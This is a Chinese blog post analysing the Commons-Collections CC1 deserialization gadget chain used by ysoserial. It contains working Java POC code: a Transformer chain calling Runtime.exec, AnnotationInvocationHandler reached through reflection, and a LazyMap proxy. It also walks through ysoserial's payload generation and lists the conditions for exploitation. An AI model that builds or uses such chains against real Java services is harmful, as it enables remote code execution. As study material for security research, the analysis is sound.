








前置
搭建JDK7环境
在oracle官网上面下载JDK7的linux版本的.tar.gz文件，千万注意自己的Linux系统是32位的系统还是64位的系统，不然会出现不兼容的情况
在vps上面搭建
创建对应的文件夹存放对应的JDK源文件
sudo mkdir -p /usr/local/java解压进入目录中
sudo cp -r jdk......tar.gz /usr/local/javasudo tar xvzf jdk.....tar.gz编辑环境变量
sudo vim ~/.bashrc写入：
JAVA_HOME=/usr/local/java/jdk1.7.0_80 JRE_HOME=/usr/local/java/jdk1.7.0_80 PATH=$PATH:$JRE_HOME/bin:$JAVA_HOME/bin export JAVA_HOME export JRE_HOME export PATH更新alternatives
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/local/java/jdk1.7.0_80/bin/java" 1 sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/local/java/jdk1.7.0_80/bin/javac" 1 sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/local/java/jdk1.7.0_80/bin/javaws" 1 sudo update-alternatives --set java /usr/local/java/jdk1.7.0_80/bin/java sudo update-alternatives --set javac /usr/local/java/jdk1.7.0_80/bin/javac sudo update-alternatives --set javaws /usr/local/java/jdk1.7.0_80/bin/javaws重新加载配置
source ~/.bashrc验证java环境
java -version
简单的demo
一个来自于代码审计知识星球的一个简单的CC1链demo
package pers.serialize;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CC1 {
public static void main(String[] args){
Transformer[] transformers = {
new ConstantTransformer(Runtime.getRuntime()),
new InvokerTransformer("exec", new Class[]{String.class},
new Object[]
{
"calc"
}),
};
ChainedTransformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
outerMap.put("test", "xxx");
}
}在本机测试会弹出计算器来
其中有些关键的类和接口
TransformedMap
Map outerMap = TransformedMap.decorate(innerMap, keyTransformer, valueTransformer);是用于对JAVA的标准数据结构Map进行了修饰
其中，keyTransformer是处理新元素的Key的回调，valueTransformer是处理新元素的value的回调。 我们这⾥所说的”回调“，并不是传统意义上的⼀个回调函数，⽽是⼀个实现了Transformer接⼝的类
Transformer
是一个接口，只有一个带实现的transform方法
特别的是，TransformedMap在转换Map的新元素的时候就会调用该方法
ConstantTransformer
是实现了Transformer接口的一个类
public ConstantTransformer(Object constantToReturn) {
super();
iConstant = constantToReturn;
}
public Object transform(Object input) {
return iConstant;
}包装任意⼀个对象，在执⾏回调时返回这个对象，进⽽⽅便后续操作
InvokerTransformer
是一个实现了Transformer接口的一个类，可以执行任意方法
在实例化这个InvokerTransformer时，需要传⼊三个参数，第⼀个参数是待执⾏的⽅法名，第⼆个参数 是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表
ChainedTransformer
也是实现了Transformer接口，是将内部所有的Transformer给串在一起
分析demo
使用
ConstantTransformer包装了Runtime.getRuntime()对象使用
InvokerTransformer调用其中的exec函数执行calc命令通过使用
ChainedTransformer来将两个Transformer串起来使用
Transformer#decorate来修饰这个链子最后通过向Map中新放入一个元素触发漏洞
POC编写
在之前的demo里面，我们通过自己put了一个元素造成了的漏洞的触发，但是在实际中，我们在反序列化过程中需要有一个类的readObject方法有着向Map中写入元素的步骤
这个类就是AnnotationInvocationHandler，所以我们在编造POC的时候需要出创建一个AnnotationInvocationHandler将前面的Map添加进来
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//因为是JDK内部类，不能直接实例化，通过反射获取构造方法
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
//设置位外部可见
construct.setAccessible(true);
//实例化
Object obj = construct.newInstance(Retention.class, outMap);但是在进行序列化的时候将会出现异常，那是因为Runtime类并没有实现java.io.Serialzie接口，不能够进行序列化
我们可以通过反射获取Runtime来避免这个问题
//Class类实现了java.io.Serialize接口
Method method = Runtime.class.getMethod("getRuntime");
Runtime res = (Runtime) method.invoke(null);
res.exec("calc");但是虽然生成了序列化之后的字符串，但是不能进行反序列化漏洞触发成功

只有当var12不为null的时候才会触发
当前面实例化的时候使用的是Retention.class然后put了一个value为键的键值对，就可以使得它不为Null
但是这个只在低版本的JAVA(Java 8u71以前)中有用
分析
与ysoserial的区别
他没有使用TransformerMap，而是使用了的LazyMap
他们的区别是Transformer是在写入元素的时候执行transform，LazyMap是在get一个元素的时候执行transform
但是在sun.reflect.annotation.AnnotationInvocationHandler的readObject方法并没有get之类得方法，他是通过在其中的invoke方法调用Map的get方法的
至于是如何调用其中的invoke方法，我们通过代理的方法实现
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessiable(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);payload生成分析
同样在getObject处打下断点

传入的command为id命令
之后使用了InvokerTransformer和反射的方法获得了Runtime.getRuntime.exec这个可以执行命令的方法
继续跟进

创建了一个HashMap用来存储元素
接着进入了Gadgets#createMemoitizedProxy
public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception {
return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
}对map进行对应操作之后再进行创造一个代理
继续跟进Gadgets#createMemoizedInvocationHandler
public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception {
return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
}这个方法返回的是一个InvocationHandler为创建代理做准备

这里的ANN_INV_HANDLER_CLASS是本来就预定好了的字符串，是为了后面得到这个类的构造方法方便使用
我们跟进Reflections#getFirstCtor

很明显是为了通过反射的到sun.reflect.annotation.AnnotationInvocationHandler这个JDK的内部类，如果成功得到了这个构造函数，后面就会把它设置为外部类方便实例化操作
之后回到了Gadgets#createMemoizedInvocationHandler方法
将实例化之后的InvocationHandler返回，之后执行createProxy方法
public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) {
final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1);
allIfaces[ 0 ] = iface;
if ( ifaces.length > 0 ) {
System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
}
return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
}如果没有进行代理操作，执行iface.cast操作使用Proxy#newProxyInstance方法代理handler
得到了一个mapProxy这个代理map，这里还需要使用sun.reflect.annotation.AnnotationInvocationHandler对这个mapProxy进行包装，方便从readObject这个入口进入
接着进入Reflections#setFieldValue
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
final Field field = getField(obj.getClass(), fieldName);
field.set(obj, value);
}将Transformer[]中的值全部传入了obj中

这个obj就是transformerChain，也同时将所有的transformer串在了一起，成为了一个链子

最后在这里实现序列化
链子和利用条件

同样需要环境是java 8u71之前和具有commons-collections


- Post link: https://roboterh.github.io/2022/03/19/ysoserial%E5%88%86%E6%9E%90%E4%B9%8BCC1/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.